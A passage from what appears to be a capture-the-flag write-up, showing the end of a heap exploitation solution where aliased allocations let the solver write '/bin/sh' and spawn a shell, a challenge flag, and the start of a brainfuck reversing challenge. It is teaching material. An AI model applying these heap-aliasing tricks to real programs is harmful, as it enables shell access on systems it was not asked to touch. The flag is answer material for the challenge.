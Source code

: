 ```
3: Fill a
4: System b
> 1
What do I malloc?
(1) a
(2) b
>> 2
a is at 0x564dc92312a0
b is at 0x564dc92312a0
1: Malloc
2: Free
3: Fill a
4: System b
> 3
>> /bin/sh
a is at 0x564dc92312a0
b is at 0x564dc92312a0
1: Malloc
2: Free
3: Fill a
4: System b
> 4
$
```

and voila, we have the shell.

### Flag
```
ictf{w3lc0me_t0_h34p_24bd59b0}
```

## No Thoughts, Head Empty (Reversing, 200 pts)

### Description

When I was making Roolang, of course I took a look at the mother of all esolangs! So, have some bf code. Run it here (https://copy.sh/brainfuck/) with 32 bit cells and dynamic memory enabled. Run the program to get the flag, and then some.

### Attachment

[`flag_min.bf`](_Attachments/flag_min.bf)

### Solution

If we run the given code at the linked website, we get:


```
iccttttffffffff{{{{{{{{{{{{{{{{00000000000000000000000000000000nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn...
```
